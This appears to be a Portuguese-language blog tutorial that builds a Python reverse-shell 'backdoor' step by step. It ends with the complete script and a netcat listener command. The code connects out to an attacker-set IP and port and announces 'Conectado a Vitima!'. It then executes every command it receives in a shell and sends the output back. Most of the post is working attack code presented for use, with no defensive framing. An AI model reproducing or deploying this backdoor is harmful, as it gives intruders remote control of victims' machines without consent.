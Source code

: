 ```yaml
---
layout: post
title:  "BlackDoor em Python"
date:   2017-12-18
---
```

<figure>
	<img src="{{ '/assets/img/ imagem aqui' | prepend: site.baseurl }}" alt=""> 
	
</figure>
<p class="intro"><span class="dropcap"> S</span>imples "BackDoor" em python para conexão revessa, você pode usar o NetCat ou criar um servido em python para estar ouvindo o"BkacDoor".

<dt>1. vamos importa as bibliotecas necessarias para o funcionamento do BackDoor.</dt> 

{% highlight python %}
#!/usr/bin/python
import socket,subprocess, os
# ou 
import socket
import subprocess
import os
{% endhighlight %}

<dt>2. Antes de começar vamos definir 2 variáveis para a "Porta" é "IP" onde o backdoor ira se conectar. </dt>

{% highlight python %}
# Seu Ip ou Ip externo. 
HOST = '192.168.1.40'
# Sua porta  
PORT = 90
{% endhighlight %}

<dt>3. Agora temos que definir o tipo de socket, neste caso sera usado o socket do tipo TCP.</dt>

{% highlight python %}
# TCP Socket 
s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
{% endhighlight %}

<dt>4. Aqui estamos conectando o socket no ip e porta que definimos acima.</dt>
{% highlight python %}
# Conectando ou Ip e a Porta 
s.connect((HOST, PORT))
{% endhighlight %}

<dt>5. Agora vamos enviar uma "mensagem para o servidor indicando que nos conectamos a ele."</dt>
{% highlight python %}
# Mensagem indicando que estamos conectado
s.send('''
        #########################
        [*] Conectado a Vitima !
        #########################
	    \nRoot@Shell>>''')
{% endhighlight %}

<dt>6. Agora vamos criar um "loop" para recebermos comando externos de um servidor. </dt>
{% highlight python %}
while 1:
     data = s.recv(1024)
# Se dermos o comando "quit" paramos o loop 
     if data == "quit": break
# Parte do comando "CD" para navegar melhor.
     if data.startswith('cd'):
          os.chdir(data[3:].replace('\n',''))
          s.send(os.getcwd()+"Root@Shell>>")
     proc = subprocess.Popen(data, shell=True, stdout=subprocess.PIPE, stderr=subprocess.PIPE, stdin=subprocess.PIPE)
     stdout_value = proc.stdout.read() + proc.stderr.read() 
     s.send(stdout_value)
# Fechamos o socket 
s.close()
{% endhighlight %}

<dt> A qui abaixo esta os servidor já pronto é uma imagem dele conectado ao "NetCat"</dt>
{% highlight python %}
#!/usr/bin/python
import socket,subprocess, os
HOST = '192.168.1.40'    # Seu Ip ou No-Ip
PORT = 90                # Sua porta 
s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect((HOST, PORT))
s.send('''
        #########################
        [*] Conectado a Vitima !
        #########################
	    \nRoot@Shell>>''')
while 1:     
     data = s.recv(1024)    
     if data == "quit": break
     # Parte do comando "CD" para navegar melhor.
     if data.startswith('cd'):
          os.chdir(data[3:].replace('\n',''))
          s.send(os.getcwd()+"Root@Shell>>")     
     proc = subprocess.Popen(data, shell=True, stdout=subprocess.PIPE, stderr=subprocess.PIPE, stdin=subprocess.PIPE)     
     stdout_value = proc.stdout.read() + proc.stderr.read()
     s.send(stdout_value)
s.close()
{% endhighlight %}

<figure>
	<img src="{{ '/assets/img/socket.png' | prepend: site.baseurl }}" alt=""> 
	<dd>Usando o NetCat Exp:</dd>
	<figcaption>nc -vnlp "90" tem que ser a porta que definimos na variável "PORT" </figcaption>
</figure>





